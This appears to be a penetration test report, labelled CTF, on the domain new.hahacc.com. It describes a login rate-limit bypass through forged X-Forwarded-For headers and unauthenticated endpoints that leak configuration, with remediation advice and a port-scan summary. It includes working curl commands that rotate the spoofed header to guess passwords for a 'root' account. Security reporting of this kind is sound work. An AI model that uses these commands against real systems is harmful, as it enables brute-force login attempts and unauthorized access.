

# Penetration Test Report: new.hahacc.com (CTF)

- Test date: 2026-05-26
- Target: `new.hahacc.com`
- Scope: the target domain and its exposed endpoints only
- Method: passive information gathering + endpoint enumeration + authentication and rate-limit mechanism verification

## Summary of findings

This engagement identified 2 core issue classes:

1. Login rate limiting can be bypassed by forging `X-Forwarded-For` (high severity)
2. Multiple unauthenticated endpoints expose sensitive system runtime configuration (medium severity)

## Vulnerability 1: Login rate-limit bypass (XFF Header Trust)

- Severity: high
- Affected endpoint: `POST /api/user/login`
- Vulnerability description:
  Without validating the trustworthiness of the proxy chain, the server apparently uses a client-controllable request header (`X-Forwarded-For`) as the rate-limiting dimension. An attacker can forge or rotate XFF values to bypass 429 rate limiting and conduct high-concurrency password guessing.

### Reproduction command (PoC)

```bash
# 1) Without the forged header: triggers rate limiting
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 429

# 2) With forged XFF: requests are allowed again (rate limit bypassed)
curl -k -s -o /dev/null -w "%{http_code}\n" \
  -H "Content-Type: application/json" \
  -H "X-Forwarded-For: 10.0.0.123" \
  -X POST "https://new.hahacc.com/api/user/login?turnstile=" \
  --data '{"username":"root","password":"12345678"}'
# Result: 200
```

### Evidence

- Consecutive requests without XFF: `429`
- Consecutive requests with rotated XFF: `200`

### Remediation recommendations

1. Trust only the real source IP injected by the reverse proxy layer (e.g. Nginx `real_ip` + a trusted proxy whitelist).
2. Base application-layer rate limiting on a combination of trusted source address + account dimension + device fingerprint.
3. Strictly validate the origin of `X-Forwarded-For`; never allow direct client-supplied overrides.
4. Add login failure delay and account protection policies (sliding window, exponential backoff, captcha escalation).

## Vulnerability 2: Unauthenticated sensitive information exposure (status and business configuration)

- Severity: medium
- Affected endpoints:
  - `GET /api/status`
  - `GET /api/pricing`
  - `GET /api/setup`
- Vulnerability description:
  In an unauthenticated state, the full system runtime configuration, feature flags, OAuth/Passkey parameters, group policies, and model/billing policies can be retrieved, which can be used for precise attack-surface construction and credential-stuffing strategy optimization.

### Reproduction command (PoC)

```bash
curl -k -s https://new.hahacc.com/api/status
curl -k -s https://new.hahacc.com/api/pricing
curl -k -s https://new.hahacc.com/api/setup
```

### Examples of key exposed items

- `self_use_mode_enabled`
- `turnstile_check`
- `passkey_rp_id` / `passkey_origins`
- `supported_endpoint` / `group_ratio` / `usable_group`
- `setup` and `root_init` status fields

### Remediation recommendations

1. Move highly sensitive configuration behind authenticated endpoints and return only the minimal fields the frontend needs to display.
2. Establish a field whitelist for anonymous endpoint output; deny internal configuration fields by default.
3. Apply access control to initialization status endpoints and minimize returned values (avoid status inference).

## Attack path diagram



## Other test records

- Port-level scanning found multiple open ports (22/80/443/3000/3306/5000/5432/6379/8080/8443/9200/27017), but most service fingerprints were inconclusive and were not exploited further within the scope of this engagement.
- During bulk endpoint probing, most endpoints returned authentication errors (401), indicating that core business functionality still has baseline authentication.

## Risk conclusion

The target's main risk lies not in "direct unauthorized login" but in "a brute-force protection control that can be bypassed + excessive anonymous information exposure". Combined, they can significantly reduce attack cost.
